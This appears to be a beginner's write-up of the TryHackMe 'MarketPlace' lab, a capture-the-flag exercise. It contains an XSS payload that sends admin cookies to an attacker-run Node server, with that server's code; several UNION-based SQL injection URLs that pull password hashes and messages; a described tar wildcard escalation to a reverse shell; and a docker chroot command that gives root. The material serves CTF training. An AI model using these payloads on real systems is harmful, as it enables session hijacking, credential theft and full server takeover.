


# TryHackMe-MarketPlace

The sysadmin of The Marketplace,  Michael, has given you access to an internal server of his, so you can  pentest the marketplace platform he and his team has been working on. He  said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?

This is my first write-up. So all the suggestions are welcome.

## Enumeration:

First a simple nmap scan showed 3 open ports: 22,80 and 32768


from the scan we can see that port 32768 is also a web server based on node.js and on both port 80 and 32768 same website are hosted.


on checking out the items listed, we can see that we can report items to the admin and as given in room hint that we have to use report listing to admin somehow.


So, lets create a account and login. after reporting a post i recieved this msg.

so as we can see admin will check the reported listing. Let's try to create our own list.



now, as we see the form, file upload is disabled, so we can not use it for uploading any type of payload on the server. So, lets try xss.
so, at first let's try a simple script to check if we can use xss:\
```
<script>alert("xss is available")</script>
```

as we can see, xss can be used to steal admin cookies.
I read this null byte article regarding stealling cookie. So i created a new list with following script for xss:

```
<script type="text/javascript">
document.location='http://<attack-machine-ip>:8000/cookie?c='+document.cookie;
</script>
```
code for the node server that i used to get admin cookie is:
```
express = require('express')
const app = express();

app.get('/cookie', function(req, res){
    var cookie= req.query.c;
    console.log(cookie)
    res.send(cookie)
})

app.listen(8000, function () {
    console.log("cookie stealer server has started");
  });
```
Start the server and for going to report page check at what number your item is listed than go to __/report/<number_at_which_your_item_is_listed>__.
after reporting u will recieve the cookie of admin. One cookie will be yours and one cookie will be of admin:


replace your cookie with the cookie of admin by intercepting the request sent to server using burp suite.


after replacing the cookie with cookie of admin, we see a admin panel in nav bar:


we find our first flag on admin page:


now, lets try sqli injection on admin panel when we see user url goes like this “/admin?user=1”. I found a really helpfull article for [sql injection](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/).
when i sent a request with user id=1' , i recieved a sql error that means this page has sqli injection vulnerablity.


So, lets use this to enumerate database. To find out how many coulumns are there are in current table:
```
 http://10.10.130.112/admin?user=1+ORDER+BY+4
```


we can see that there are 4 columns. Lets find out which column is vuln.
```
http://10.10.130.112/admin?user=-1+union+select+1,2,3,4
```


so we can see that the column 1 is vulnerable. Lets find out the names of all the tables. I send this request to server and recieved the names of tables.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),2,3,4
```


so name of all the tables is here lets enumerate users tables.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+PASSWORD+FROM+users+WHERE+ID=2),2,3,4
```
this gives us password hashes of user with id 2 who is michael similarly we can find hashes for jack whose id is 3.


i tried cracking these hashes but latter realised this is a rabbit hole as according to thm rule, if a hashes is taking more than 5 min on thm attack machine than that's not the correct way.
So, let's enumerate other tables, lets enumerate messages table. lets enumerate column names inside messages table:

```
10.10.130.112/admin?user=-1+union+select+(SELECT+group_concat(COLUMN_NAME)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME=%27messages%27),2,3,4
```


now let's read the messages.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+message_content+FROM+messages+WHERE+ID=1),2,3,4
```


and boom we have passwords for a user now lets check other
columns and see whom was it send to.
```
http://10.10.130.112/admin?user=-1+union+select+(SELECT+user_to+FROM+messages+WHERE+ID=1),2,3,4
```


and the message was sent to user with id 3 and we know who that is
“jake”.
So, lets login to ssh through the creds we just got.
now we have ssh shell. and we have user flag.


## Privilage Escalation:

Let's check id and run sudo -l:


as we can see that we can run a script as michael without
passwords. So, now let's increase our privilage to michael.
We can use ‘**tar wildcard privilage escalation**’ method.
follow my steps for privilage escalation:


as u can see i created a script to get a reverse shell with privilages of michael.


now we have a shell with michael as a user. By running id we can see that michael is part of docker group.


from docker to root, it's a easy path, run
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

and we have root access.


root flag is in /root/root.txt

we have root flag. hope u learnt something.

